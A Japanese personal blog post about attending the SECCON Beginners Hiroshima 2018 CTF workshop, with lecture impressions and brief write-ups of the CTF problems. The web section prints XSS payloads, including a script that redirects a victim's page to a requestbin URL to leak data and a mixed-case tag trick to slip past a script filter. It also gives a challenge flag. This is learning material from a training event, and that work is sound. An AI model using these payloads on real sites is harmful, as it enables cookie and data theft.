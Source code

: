 # SECCON Beginners 広島の感想
- なんだか小学生の夏休みの日記的なものが出来上がった
### 参加前
- [2018/08/05] TwitterでmegumishさんやVane11opeさんを見ていて、なんだかCTFっておもしろそうだなと思ったのがきっかけでCTFを始めました。
- [2018/08/07] cpawctfを埋めました
- [2018/8/12] picoctf2017を少ししました
- [2018/8/13] tjctf2018で撃沈したので復習をしました(ここで力が少しつきました)
- [2018/08/21] めぐめぐ会オンラインでmegumishさんにスタックなど、Heap問の前提知識を教えてもらいました(まだpwn周りはよくわからない)
- [2018/9/3] 復習に追われているうちに広島ctf4bに参加

### 当日
- 講義はCrypto, Web, Binaryの3分野でした。[しゅういちさんのブログ](http://ups.hatenablog.jp/entry/2018/09/03/SECCON_Beginners_%E5%BA%83%E5%B3%B6%E8%A1%8C%E3%81%A3%E3%81%A6%E3%81%8D%E3%81%9F), [はすみさんのブログ](http://mwc922-hsm.hatenablog.com/entry/2018/09/01/234729)が詳しいので僕は感想を書きます。
- Cryptoに関してはRSAを予習してきたのでほぼ知っている内容でした。ただ、乱数生成器の不備によって数学的に脆弱になる可能性など、ちょこちょこ知らない話が出てきてひゃー嬉しい！暗号楽しい！となっていました。家に帰って、講師の方が所属するチームdodododoを検索してその業績にびっくりしました。広島にあんなやばい人間が来ていたのか…貴重な機会だったんだなあ。
- Webに関してはどういう形で攻撃が成立するのか？という視点で講義が進みました。個人的に、それまでXSSといえばアラート出して嬉しい！あれ、何が嬉しいんだろう？？？と思っていました。XSSが可能ならばリンクを攻撃対象に踏ませることで偽のHTMLを表示させて情報を抜き取り、攻撃者側にHTMLやCookieを送ることで攻撃が成立する、という話を聞き、攻撃が成立するまでの流れが理解できました。
- Binaryに関しては、資料配布時点で見るからに枚数がごつくて、怯えながら受けていました。しかし、講師の方のスピードがちょうどいいテンポで、演習が挟まれていて理解が進みやすく、本当にこれは最高でした。一人でRevとかやってるとつまづきしか感じなくてモチベーションが下がるのですが、これはステップアップしていく気分が本当によくて、Revへの意欲が湧きました。バイナリ、読めると楽しいですね。radare2が紹介されなかったのが少し寂しい。

#### CTF演習
##### 前置き
- CTF演習が最後にありました。最終的に2位になることができて嬉しかったです。
- 環境: windows, ubuntu16.04(仮想環境)を使いました。
![](./board.PNG)
![](./score.PNG)
- 1位: 1700点
- 2位: 1400点
- 3位: 1200点
- 4位: 1200点
- 5位: 1100点
- 6位: 1100点
- 7位: 1000点
- 8位: 1000点
- 9位: 1000点
- 10位: 900点
- と、かなりぎりぎりでの2位だったのでもっと精進を積まねばという気持ちです。

##### WriteUp
- [Misc]
- Welcome(100): CTFによくある、最初の軽い確認問題ですね。コピペをしました。
- Calc(200): `a+b*c`や`a-b*c`や`a*b+c`といった形の簡単な計算問題を100回解くというものです。真っ先に[てけいさんえくすとりーむず](https://graneed.hatenablog.com/entry/2018/05/27/173354)を思い浮かべますが、コードかき捨てができない。100回手動で計算しました。紙をたくさん使った…想定解はPythonで、Beautiful Soup + Requestっぽいです。スクレイピングに思い至らなかったです。
- handSQL(200, WA): 解けませんでした。SQLiじゃん！と思っていたのですがことごとくはじかれて何をすればいいのかもわからなかった。想定解は何回か正しいSQL文を送ればよいというもので、そもそもSQLiではないですね。ちゃんと問題を読みましょう…
- [Crypto]
- Go Fast(100)かFactoring(100)←どちらか片方を忘れています。: 素数二つの積`pq`が与えられるので、素因数分解して`p+q`の値を求めよう！という問題。競技プログラミングで鍛えたC++で瞬殺！と思ってコードを書き始めたときにふと、「…これ、Wolfram Alphaでいけるのでは」と思って[Wolfram Alpha](http://www.wolframalpha.com/)に投げたら普通に素因数分解されてしまった。和をとって終わり。
- SimpleRSA(200): `p,q,e,C`が分かっていて`M`が知りたい状態なので`d`を求めればOK。`phi = (p-1)*(q-1)`として、`mod phi`での`e`の逆元を拡張ユークリッドを用いて求めます。出てくる数値を`binascii.a2b_hex`で変換して、`ctf4b{rsa_is_very_simple}`を得る。
- Find Primes(300, 未AC): ソースコードを見て、あ、これは片方で使いまわしが起きてるからそこからなんとかするやつやなと思って結局手を付けられませんでした。想定解は、素数の使いまわしが起きているためgcdが1ではなくなるところが存在していて、それを見つけ出すことがカギだったようです。
- [Web]
- make alert!(100): XSSでアラートを出す。`<script>alert(1);</script>`
- Contact Revenge(100): XSS。`<script>document.location='URL'</script>`でURLをreqestbinにして、自分に情報を送信させると、その中にflagがある。
- Contact Re-Revenge(200): 前問と同じようにすると`script`が許可されていないことがわかる。個人的なアレですが、こういうjailっぽい感じの、監視の目をかいくぐる問題(pyjailなど)が解けないけれど、大好きです。少しXSSチートシートなどを調べて`<ScRiPt>document.location='URL'</ScRiPt>`みたいな大文字を混ぜるやつを試すとうまくいきました。とまとさんは`img`タグに仕込む形でリンクを踏ませていたので、複数解法があるのだと思います。
- [Reversing]
- Raw(100): stringsコマンドで見れるらしい。僕はradare2でたどっていって文字列を発見しました。
- Review(200): Binary演習のような問題が出されて、それにこたえていくとflagが手に入る。基本的に`nop`で囲まれた中を見ていけばOK。
- Function(200, WA): 最後までこれを粘っていました。どうやら普通にASCIIをくっつければよかったらしく、とても悔しい。
- Cipher(300, 未AC): これはバイナリを持っていないので分かりません。XORをかけるなど、少し複雑な処理を追いかける必要があったそうです。

#### 最後に
- 広島で開催してくださって本当にありがとうございます！！！地方では人と話したり、演習で競い合ったりという経験自体が稀なのでほんとうにありがたいです。また開催してほしいです。
- とまとさん、しゅういちさんと問題の解法などの話ができて楽しかったです！はいひるさんとなんばつさんといろいろお話してみたかったです。また会える機会があればいいなあと思っています。